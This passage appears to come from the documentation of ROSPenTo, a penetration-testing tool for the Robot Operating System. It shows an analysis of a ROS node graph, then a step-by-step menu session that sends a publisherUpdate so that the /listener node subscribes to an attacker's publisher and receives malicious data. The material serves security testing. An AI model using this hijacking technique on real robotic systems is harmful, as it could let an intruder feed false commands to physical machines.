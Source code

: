 ```4: Print nodes of analyzed system...```
Services:
  Service 1.3: /listener/get_loggers
  Service 1.2: /listener/set_logger_level
  Service 1.4: /rosout/get_loggers
  Service 1.5: /rosout/set_logger_level
  Service 1.1: /talker/get_loggers
  Service 1.0: /talker/set_logger_level
Communications:
  Communication 1.0:
    Publishers:
      Node 1.0: /talker (XmlRpcUri: http://127.0.0.1:39821/)
    Topic 1.0: /chatter (Type: std_msgs/String)
    Subscribers:
      Node 1.1: /listener (XmlRpcUri: http://127.0.0.1:40565/)
  Communication 1.1:
    Publishers:
      Node 1.0: /talker (XmlRpcUri: http://127.0.0.1:39821/)
      Node 1.1: /listener (XmlRpcUri: http://127.0.0.1:40565/)
    Topic 1.1: /rosout (Type: rosgraph_msgs/Log)
    Subscribers:
      Node 1.2: /rosout (XmlRpcUri: http://127.0.0.1:39573/)
  Communication 1.2:
    Publishers:
      Node 1.2: /rosout (XmlRpcUri: http://127.0.0.1:39573/)
    Topic 1.2: /rosout_agg (Type: rosgraph_msgs/Log)
    Subscribers:
Parameters:
  Parameter 1.0:
    Name: /roslaunch/uris/host_robl013__46159
  Parameter 1.1:
    Name: /rosdistro
  Parameter 1.2:
    Name: /rosversion
  Parameter 1.3:
    Name: /run_id
~~~~


ROSPenTo can be used to perform the described scenario. Therefore, the following user menu option is used:

```12: Update publishers list of subscriber (set)...```

If you enter the correct numbers, the list of publishers is updated on the subscriber node and it receives the malicious data from the attacker's publisher node.

~~~~
To which subscriber do you want to send the publisherUpdate message?
Please enter number of subscriber (e.g.: 0.0):
0.1
Which topic should be affected?
Please enter number of topic (e.g.: 0.0):
0.0
Which publisher(s) do you want to set?
Please enter number of publisher(s) (e.g.: 0.0,0.1,...):
1.0 
sending publisherUpdate to subscriber '/listener (XmlRpcUri: http://143.224.167.14:44121/)' over topic '/chatter (Type: std_msgs/String)' with publishers '/talker (XmlRpcUri: http://143.224.167.14:39821/)'
PublisherUpdate completed successfully.
~~~~



```
